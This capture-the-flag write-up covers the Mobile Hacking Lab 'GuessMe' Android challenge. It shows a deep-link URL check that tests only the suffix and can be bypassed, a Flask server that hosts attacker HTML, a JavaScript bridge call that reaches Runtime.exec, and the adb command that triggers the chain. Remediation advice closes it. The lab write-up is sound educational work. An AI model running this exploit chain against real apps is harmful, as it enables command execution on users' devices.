

# Mobile Hacking Lab - GuessMe

## Introduction

In this challenge, I found a chain of vulnerabilities involving a **Deep Link**, **WebView**, and an exposed **JavaScript Interface**.

The interesting part was that I didn't find the final issue directly. I started by analyzing how the application handles Deep Links and followed the flow until I reached command execution.

---

## 1. Finding the Deep Link Issue

While analyzing `WebviewActivity`, I found this validation:

```java
String queryParameter = uri.getQueryParameter("url");

return queryParameter != null &&
       queryParameter.endsWith("mobilehackinglab.com");
```

At first, this looked like a URL validation.

But the application only checks if the URL **ends with** `mobilehackinglab.com`.

It doesn't actually check the hostname.

So I could use a URL like:

```text
http://192.168.1.174:8000/mobilehackinglab.com
```

Because it ends with:

```text
mobilehackinglab.com
```

the application accepts it.

The application then loads the URL:

```java
webView.loadUrl(fullUrl);
```

---

## 2. Getting My Page to Load

I created a simple local web server to host my HTML page.

My first attempt used Python's built-in HTTP server.

The problem was that the response was treated as:

```text
application/octet-stream
```

instead of:

```text
text/html
```

As a result, the WebView downloaded the response instead of rendering it as an HTML page.

I fixed this by using Flask and explicitly returning the response as HTML.

The server is included in:

```text
server2.py
```

The important part is:

```python
@app.route("/mobilehackinglab.com")
def index():
    return Response(html, mimetype="text/html")
```

Now the WebView renders the page correctly.

---

## 3. Finding the JavaScript Interface

After getting my page to load, I looked again at the WebView configuration.

JavaScript was enabled:

```java
webSettings.setJavaScriptEnabled(true);
```

And the application exposed:

```java
webView.addJavascriptInterface(
    new MyJavaScriptInterface(),
    "AndroidBridge"
);
```

So JavaScript inside the WebView could access `AndroidBridge`.

---

## 4. Command Execution

Inside `MyJavaScriptInterface`, I found:

```java
@JavascriptInterface
public final String getTime(String Time) {
    Process process = Runtime.getRuntime().exec(Time);
    ...
}
```

The argument is passed directly to:

```java
Runtime.getRuntime().exec(Time);
```

There is no input validation.

I tested it from my HTML page:

```javascript
var output = AndroidBridge.getTime("hostname");

document.write("<pre>" + output + "</pre>");
```

The command output was returned and displayed inside the WebView.

At this point, the complete attack chain was clear.

---

## 5. Exploitation

I started my Flask server:

```bash
python3 server2.py
```

Then triggered the vulnerable Deep Link:

```bash
adb shell am start -W \
-a android.intent.action.VIEW \
-d "mhl://mobilehackinglab?url=http://192.168.1.174:8000/mobilehackinglab.com" \
com.mobilehackinglab.guessme
```

The application accepted the URL, loaded my page, and the JavaScript Interface executed the command.



---

## Attack Chain

```text
Deep Link
    ↓
Weak URL Validation
    ↓
Attacker-Controlled URL
    ↓
WebView.loadUrl()
    ↓
JavaScript Enabled
    ↓
AndroidBridge
    ↓
getTime()
    ↓
Runtime.exec()
    ↓
Command Execution
```

---

## Impact

An attacker who can trigger the vulnerable Deep Link may be able to:

* Load an attacker-controlled page inside the WebView.
* Execute JavaScript.
* Access the exposed JavaScript Interface.
* Execute commands through `Runtime.exec()`.

---

## Remediation

* Properly validate the Deep Link hostname.
* Do not load untrusted URLs into the WebView.
* Avoid exposing sensitive native methods through JavaScript Interfaces.
* Never pass untrusted input directly to `Runtime.exec()`.


